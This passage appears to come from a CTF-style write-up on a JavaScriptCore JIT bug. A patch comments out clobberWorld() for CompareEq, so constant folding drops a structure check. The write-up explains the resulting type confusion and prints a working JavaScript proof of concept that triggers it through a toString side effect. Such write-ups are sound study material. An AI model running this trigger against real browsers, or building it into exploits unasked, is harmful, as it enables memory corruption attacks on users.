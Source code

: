 ```diff
         }
 
-        if (isClobbering)
-            clobberWorld();
+    //    if (isClobbering)
+    //        clobberWorld();
         setNonCellTypeForNode(node, SpecBoolean);
         break;
     }
```

It has commented out the `clobberWorld` and `didFoldClobberWorld` functions in the processing code of `CompareEq` in `AI`. These two functions are the codes that indicate the node has side effects, so the patch means `side effect` of  `CompareEq node` is dropped.

### build poc

The persudo poc of classic `side effect` bug  is:

```asm
CheckStructure s1
GetByVal s1
side effect code  ;; AI thought it has no side-effect, but it actually has
CheckStructure s1
GetByVal s1
```

After the `constant folding` phase, the second `CheckStructure` node will be eliminated. Thus the subsequent operations(`GetByVal`) on `s1` will still follow the type of the first `structure` , but the structure of `s1`  has changed when the `side effect code` is executed,  which forms a type confusion vulnerability here.

```asm
CheckStructure s1
GetByVal s1
side effect code  ;; AI thought it has no side-effect, but it actually has
GetByVal s1
```

According to the above idea, the constructed `poc` is as follows:

```c++
const MAX_ITERATIONS = 0xc0000;

var val = 2.2;
function foo(arr, obj)
{
    arr[1] = 1.1;
    obj == val;
    return arr[0];
}

let template = [1.1, 2.2, 3.3];
template.x = {};

let arr = [1.1, 2.2, 3.3];
for( let i=0; i<MAX_ITERATIONS; i++ ) {
    foo(arr, template);
}

let evil = {
    toString: () => {
        arr[0] = template;
    }
}

print(foo(arr, evil));
```